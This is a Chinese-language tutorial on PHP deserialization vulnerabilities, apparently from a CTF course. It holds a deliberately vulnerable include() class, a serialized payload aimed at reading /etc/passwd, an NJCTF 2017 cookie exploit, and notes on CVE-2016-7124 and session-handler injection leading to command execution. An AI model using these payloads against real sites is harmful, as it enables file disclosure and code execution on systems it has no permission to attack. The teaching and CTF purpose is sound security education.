



# 课程 P1：理解PHP反序列化漏洞 🧠


在本节课中，我们将学习PHP反序列化漏洞的核心概念、成因以及如何利用它。课程内容从PHP面向对象基础讲起，逐步深入到反序列化漏洞的原理和实际CTF题目分析，旨在让初学者能够理解并掌握这一安全议题。

## 概述

PHP反序列化漏洞是Web安全中一个重要的议题。它源于将序列化的字符串恢复为对象时，程序执行了用户可控的代码。本节课将首先介绍PHP的类和对象、序列化与反序列化的基本概念，然后讲解关键的魔术方法，最后通过实例分析漏洞的利用方式。

## PHP类与对象基础

要理解反序列化漏洞，首先需要了解PHP的面向对象编程基础。

一个**类**是对一类具有共同特征事物的抽象。一个**对象**是类的一个具体实例。类中定义的特征称为**属性**，而定义的操作称为**方法**。



例如，“人”可以是一个类，具体的“张三”就是一个对象。人的“姓名”、“身高”是属性，“吃饭”、“睡觉”则是方法。

以下是一个简单的PHP类定义示例：

```php
class Test {
    public $A;
    public $B;
    public function echoVar() {
        echo $this->A . $this->B;
    }
}
```

要使用这个类，需要先将其**实例化**为一个对象，并为属性赋值：

```php
$test = new Test(); // 实例化对象
$test->A = “first”;
$test->B = “second”;
$test->echoVar(); // 输出：firstsecond
```

## 序列化与反序列化

上一节我们介绍了类和对象，本节中我们来看看如何保存和恢复对象状态。

**序列化**是将对象的状态转换为字符串的过程，以便存储或传输。**反序列化**则是将这个字符串重新恢复为可用的对象。

PHP使用 `serialize()` 函数进行序列化，使用 `unserialize()` 函数进行反序列化。

```php
// 序列化
$serialized_string = serialize($test);
echo $serialized_string;
// 输出类似：O:4:“Test”:2:{s:1:“A”;s:5:“first”;s:1:“B”;s:6:“second”;}

// 反序列化
$restored_object = unserialize($serialized_string);
$restored_object->echoVar(); // 输出：firstsecond
```

**重要提示**：序列化只保存对象的属性值，不保存其方法。

## PHP魔术方法

说到序列化，就不得不提PHP中的魔术方法。魔术方法是在特定事件发生时由PHP自动调用的方法。

以下是几个与序列化相关的关键魔术方法：
*   `__construct()`: 对象创建（实例化）时调用。
*   `__destruct()`: 对象被销毁时调用。
*   `__sleep()`: 在对象被序列化`serialize()`之前调用。
*   `__wakeup()`: 在对象被反序列化`unserialize()`之后调用。
*   `__toString()`: 当一个对象被当作字符串处理时（例如 `echo $obj;`）调用。

考虑以下代码：

```php
class TestMagic {
    public $data;
    public function __construct() { echo “__construct called.\n”; }
    public function __sleep() { echo “__sleep called.\n”; return array(‘data’); }
    public function __wakeup() { echo “__wakeup called.\n”; }
    public function __toString() { echo “__toString called.\n”; return $this->data; }
    public function __destruct() { echo “__destruct called.\n”; }
}

$obj = new TestMagic(); // 输出：__construct called.
$obj->data = “hello”;
$ser = serialize($obj); // 输出：__sleep called.
$newobj = unserialize($ser); // 输出：__wakeup called.
echo $newobj; // 输出：__toString called. hello
// 脚本结束时，两个对象销毁，输出两次：__destruct called.
```

在CTF题目中，`__wakeup()`、`__destruct()` 和 `__toString()` 是最常被利用的魔术方法。

## 反序列化漏洞的利用

上一节我们了解了魔术方法，本节中我们来看看漏洞如何产生。

**利用条件**：
1.  代码中存在 `unserialize()` 函数，且参数用户可控。
2.  反序列化的对象所属的类中，定义了魔术方法。
3.  魔术方法中的代码存在危险操作（如文件操作、命令执行），并且这些操作的参数用户可通过控制对象属性来影响。

当这些条件满足时，攻击者可以构造一个特殊的序列化字符串。当该字符串被反序列化时，就会自动执行魔术方法中的危险代码，从而可能造成文件读取、命令执行等后果。

以下是一个简单的漏洞代码示例：

```php
class VulnerableClass {
    public $file;
    public function __destruct() {
        include($this->file); // 危险操作！尝试包含$file指定的文件
    }
}

// 用户可控的反序列化点
$data = $_GET[‘data’];
$obj = unserialize($data); // 如果$data是攻击者构造的，则可能包含任意文件
```

攻击者可以构造如下利用代码：

```php
$exp = new VulnerableClass();
$exp->file = “/etc/passwd”; // 指向攻击者想读取的文件
$payload = serialize($exp);
echo $payload; // 将此字符串作为data参数传递
```

## CTF例题解析：NJCTF 2017

让我们通过一道实际的CTF题目来巩固理解。题目给出了一段源码，其中包含一个 `Test` 类，其 `__toString()` 方法会高亮显示 `$source` 属性的内容。

审计发现，Cookie是以特定格式存储的序列化字符串。解题思路如下：

1.  实例化题目给出的 `Test` 类。
2.  将 `$source` 属性设置为想要读取的文件路径（例如 `index.php`，因为flag可能在注释中）。
3.  将对象序列化，并按照题目要求的格式（数组形式）组合。
4.  将最终的payload放入Cookie发送，触发 `__toString()` 方法，读取文件内容。

以下是攻击代码示例：

```php
class Test {
    public $source;
}
$obj = new Test();
$obj->source = “index.php”;
// 题目要求格式为 array(‘xxxxx.txt’, $obj)，所以构造数组
$payload = array(‘xxxxx.txt’, $obj);
echo serialize($payload);
```

将生成的序列化字符串处理后放入Cookie，即可在响应中看到 `index.php` 的源码，从而找到flag。

## 相关漏洞与拓展

除了直接的代码审计，还有一些著名的与PHP反序列化相关的CVE漏洞。



**CVE-2016-7124**：
*   **影响版本**：PHP 5.6.25之前，7.0.10之前。
*   **漏洞成因**：当序列化字符串中表示对象属性数量的值大于真实属性数量时，`__wakeup()` 方法会被跳过，但 `__destruct()` 方法仍会执行。
*   **利用意义**：这可以帮助攻击者绕过 `__wakeup()` 中可能存在的安全过滤或修复逻辑。

**PHP Session 反序列化漏洞**：
*   **成因**：PHP 默认使用 `php` 序列化处理器，但也可以配置为使用 `php_serialize`。如果网站同时混用了这两种处理器，就可能造成反序列化漏洞。
*   **关键配置**：`session.serialize_handler`。
*   **利用场景**：通过注入特定的 Session 数据（例如利用文件上传进度 `upload_progress`），可以触发反序列化操作。

一道经典的CTF题目（如“安恒杯”某题）就利用了此漏洞。解题步骤通常包括：
1.  分析源码，找到可利用的类链（POP Chain），即一个对象的销毁或转换会触发另一个对象危险方法的调用。
2.  构造利用链，并序列化。
3.  通过 PHP Session 上传进度（`upload_progress`）等机制，将序列化字符串注入到服务器的 Session 文件中。
4.  访问特定页面触发 Session 读取和反序列化，从而执行代码（如 `system(‘ls’)`）。

## 总结

本节课中我们一起学习了PHP反序列化漏洞。
我们从PHP的类与对象基础开始，理解了序列化与反序列化的概念。
接着，我们认识了在漏洞利用中至关重要的魔术方法，如 `__wakeup()`、`__destruct()` 和 `__toString()`。
然后，我们分析了漏洞产生的核心条件：用户可控的反序列化参数、存在魔术方法、魔术方法中有危险操作。
通过NJCTF 2017的例题，我们实践了漏洞利用的基本思路。
最后，我们拓展了解了CVE-2016-7124和PHP Session反序列化漏洞这两个重要的相关知识点。



理解并掌握PHP反序列化漏洞，对于Web安全学习和CTF竞赛都至关重要。